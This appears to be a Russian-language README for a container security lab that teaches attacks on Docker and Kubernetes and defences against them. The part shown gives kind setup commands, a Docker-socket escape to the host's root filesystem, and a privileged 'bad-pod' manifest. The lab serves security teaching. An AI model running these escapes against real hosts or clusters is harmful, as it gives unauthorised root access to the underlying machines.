 # 🐳 Container Security Lab

Полный гид по атакам и защите Docker и Kubernetes.
---

## Содержание
1. Введение в контейнеризацию
2. Основные техники побега
3. Лабораторные атаки (Docker + kind)
4. Лучшие практики защиты
5. Инструменты мониторинга (Falco, NeuVector)
6. Seccomp и Audit Logs
7. Threat Modeling (STRIDE)

---

## Подготовка окружения

### Установка kind
```bash
curl -Lo ./kind https://kind.sigs.k8s.io/dl/v0.22.0/kind-linux-amd64
chmod +x ./kind && mv ./kind /usr/local/bin/
kind create cluster --name sec-lab
```

### Проверка
```bash
kubectl cluster-info --context kind-sec-lab
```

---

##  Лабораторные атаки

### Атака 1. Побег через Docker socket
```bash
docker run -v /var/run/docker.sock:/var/run/docker.sock -it alpine sh
apk add docker-cli
docker run --privileged -v /:/host alpine chroot /host sh
```

---

### Атака 2. Привилегированный под
Файл: `manifests/bad-pod.yaml`
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: bad-pod
spec:
  containers:
  - name: attacker
    image: alpine
    command: ["sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
```

---